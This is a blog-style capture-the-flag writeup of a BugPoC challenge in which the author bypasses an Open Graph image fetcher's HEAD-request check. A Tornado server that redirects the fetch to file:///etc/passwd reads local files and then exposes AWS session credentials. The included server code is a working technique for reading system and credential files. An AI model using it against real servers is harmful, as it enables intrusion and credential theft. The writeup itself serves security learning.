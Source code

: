 ```yaml
---
layout: post
title:  "LFI Challenge Writeup"
date:   2020-10-06 11:25:10 +0545
author: machinexa
image: /writeups/assets/images/lfichallenge.jpeg
category: Writeups
---
```

<br>

## Description
Browsing Twitter I saw a new challenge from BugPoC which was about LFI I immediately started solving it. The image instructed me to visit [http://social.buggywebsite.com/](https://social.buggywebsite.com/) to start the challenge. Also, since it was a server-sided bug, I got energized to solve it. 

### Starting point
First of I had to find sink where i could execute LFI. I tried typing and it generated the option to share. Looking at the source code more, i find a compressed javascript file, it showed various functinons. After analyzing the code, I found out only request starting with `https` made an xhr request and to https://api.buggywebsite.com. It send json data with url and requestTime parameter.
```js
function processUrl(e) {
    requestTime = Date.now(), url = "https://api.buggywebsite.com/website-preview";
    var t = new XMLHttpRequest;
    t.onreadystatechange = function() {
        4 == t.readyState && 200 == t.status ? (response = JSON.parse(t.responseText), populateWebsitePreview(response)) : 4 == t.readyState && 200 != t.status && (console.log(t.responseText), document.getElementById("website-preview").style.display = "none")
    }, t.open("POST", url, !0), t.setRequestHeader("Content-Type", "application/json; charset=UTF-8"), t.setRequestHeader("Accept", "application/json"), data = {
        url: e,
        requestTime: requestTime
    }, t.send(JSON.stringify(data))
```

### Developing client
I had to write a client that interacts with API with those parameters filled with value. First, i found `get_second()` (a function to get current second) in StackOverflow answer. Then for url, I used input prompt on while loop. This is what a successful response looks like, and it also returns an image in base64 encoded form.   

![Response](/writeups/assets/images/lfichallenge_response.png)

I used the JSON module to parse the data then the content of the image is dumped to file. Here's my source code [Exploit.py](https://gist.github.com/machinexa2/118a7983b407cca55a6a1801a10acb7c); Now, I tried different kinds of stuff, ideas such as SSRF but it wasn't working. I later realized it was using urllib3 to make requests which could never result in LFI but only SSRF. SSRF was also not possible as it was not showing response and was probably blocked. Also, since the API wasn't vulnerable I looked for other endpoints etc but nothing seemed to work. Playing with it for some amount of time revealed something that I missed before.  

### Open Graph metadata
It was parsing the `<meta>` tags and reflecting them. OG is short for Open Graph which allows a web page to become a rich object in the social graph. It had a lot of tags and some tags that were being reflected were `og: description`, `og: type`, `og: image`, and `og.url`. Also, description, type, and url didn't have much effect on the server. However, the parser was again fetching resources from image tag and used urllib3 to fetch. Trying for SSRF again failed me and SSRF wasn't a solution to the challenge so I moved on.

Looking at a different perspective, I found the following details:
* It fetches similar to this `^https://.*\.(jpg|svg|png)`
* Serving another file with extensions fails a HEAD request, parser checks by mimetype which can be bypassed
* Serving `.jpg` file with jpg magic header, base64 encodes the returned image response   

![Details](/writeups/assets/images/lfichallenge_details.png)

I tried putting HTML, PHP, and other code in the jpeg mimetype file but it didn't work. I also tried using Exif tags for code execution which didn't work too. I was quite lost at these moments and those weird hints from BugPoC made me madder.  

### Hitting the jackpot
Since, HEAD request was used to verify whether its image or not, I coded in tornado to create a server. I set content-type and other headers of image, and issued redirection to /etc/passwd at second get request which should hopefully get us /etc/passwd. A small snippet shows how I coded it:   
```python
class FileHandler(tornado.web.RequestHandler):
    def head(self):
        self.set_header('Content-Length', 237)
        self.set_header('Content-Type', 'image/svg+xml')
        self.set_header('Location', 'http://fa0cf2d0f26e.ngrok.io//asset/original.jpg')
    def get(self):
        self.set_header('Content-Type', 'image/svg+xml')
        self.set_header('Location', 'file:///etc/motd')
        self.write("<p>You should be redirected automatically to target URL: <a href='file:///etc/passwd'>file:///etc/passwd</a>")
        self.redirect("file:///etc/motd")

class IndexHandler(tornado.web.RequestHandler):
    def head(self):
        self.set_header('Content-Length', 237)
        self.set_header('Content-Type', 'image/svg+xml')
        self.set_header('Cache-Control', 'public, max-age=0')
        self.set_header('Pragma', 'no-cache')
        self.redirect('/asset/original.jpg')
    def get(self):
        with open('index.html', 'rb') as f:
            self.write(f.read())
```
<br>
Now, let's host the malicious server, and get that file. Also, I rechanged a lot of my exploit.py code and other files to make it as easy to get the file. I hit the jackpot got the file!

![Pwned](/writeups/assets/images/lfichallenge_pwned.png)

# Changing the impact
This is incomplete writeup and maybe changed. So, some after trying some common files i got two tokens `AWS_SESSION_TOKEN` and  `AWS_SECRET_ACCESS_KEY7`. AWS sessoin key was long and covered with lot of slashes. This is the metadata of AWS they talked about. Now currently trying to leak source code

## Takeaway 

* Always try harder, if I left when I failed SSRF, I couldn't have solved the challenge 
* Javascript files are a gold mine. Do always read them and try to find sensitive endpoints.
* Coding is essential to exploit development. Make sure you master at least a single programming language.

Some hints from BugPoC helped me but the last ones were absurd and meaningless. Also, I necessarily didnt have to code server and client. For the server, I could have used BugPoC mock endpoint and for a client, I could have used either burp or browser for testing purposes, the client is best!

